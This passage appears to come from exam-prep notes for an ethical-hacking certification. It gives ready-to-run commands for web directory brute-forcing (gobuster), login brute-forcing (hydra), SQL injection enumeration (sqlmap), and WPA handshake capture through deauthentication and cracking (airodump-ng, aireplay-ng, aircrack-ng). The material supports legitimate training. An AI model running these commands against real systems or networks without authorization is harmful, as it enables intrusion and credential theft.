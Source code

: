 # Run these until automatic:

gobuster dir -u http://10.10.10.10 -w wordlist.txt

hydra -l admin -P rockyou.txt http-post-form "/login.php..."

sqlmap -u "http://10.10.10.10/products?id=1" --dbs

  
  
**[Back to top](#top)**

___

## Module 16: Hacking Wireless Networks

## Module 16: Hacking Wireless Networks

  

### 1. Wireless Reconnaissance (Exam Weight: 25%)

```

# Discover nearby networks

  

airodump-ng wlan0mon

  

# Target specific AP

  

airodump-ng --bssid AP:MAC --channel 6 -w capture wlan0mon

```

  

### WPA/WPA2 Cracking (Guaranteed Exam Task)

```

# Capture handshake (wait for client connection)

  

aireplay-ng --deauth 10 -a AP:MAC -c CLIENT:MAC wlan0mon

  

# Crack with aircrack

  

aircrack-ng -a2 -w rockyou.txt capture-01.cap

```
